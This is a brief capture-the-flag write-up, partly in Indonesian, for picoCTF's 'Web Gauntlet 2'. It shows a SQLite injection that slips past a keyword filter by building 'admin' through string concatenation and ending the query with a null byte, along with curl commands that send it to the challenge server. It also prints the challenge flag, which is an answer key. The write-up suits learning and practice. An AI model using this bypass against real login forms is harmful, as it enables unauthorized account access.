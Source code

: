 <h1>Web Gauntlet 2</h1>
<h3>Description</h3>
<pre>
This website looks familiar... Log in as admin Site: <a href='http://mercury.picoctf.net:61434/'>Chall</a> <a href='http://mercury.picoctf.net:61434/filter.php'>Filter</a>
</pre>
<h3>Solution</h3>

<p>Pada halaman filter.php : or and true false union like = > < ; -- /* */ admin</p>
<p>SQLite null byte atau %00 juga dianggap akhir dari query</p>
<pre>
Injection

user : ad'||'min'%00
pass : 123
</pre>

<pre>
curl -X POST -d "user=ad'||'min'%00&pass=123" http://mercury.picoctf.net:61434/ --cookie "PHPSESSID=1gsae0u6qh3uiv1htiiv1bj7mo" --output -
</pre>

dan curl ke filter.php

<pre>
curl -X GET http://mercury.picoctf.net:61434/filter.php --cookie "PHPSESSID=1gsae0u6qh3uiv1htiiv1bj7mo" --output -
</pre>
<h3>Flag</h3>
<pre>
picoCTF{0n3_m0r3_t1m3_b55c7a5682db6cb0192b28772d4f4131}
</pre>
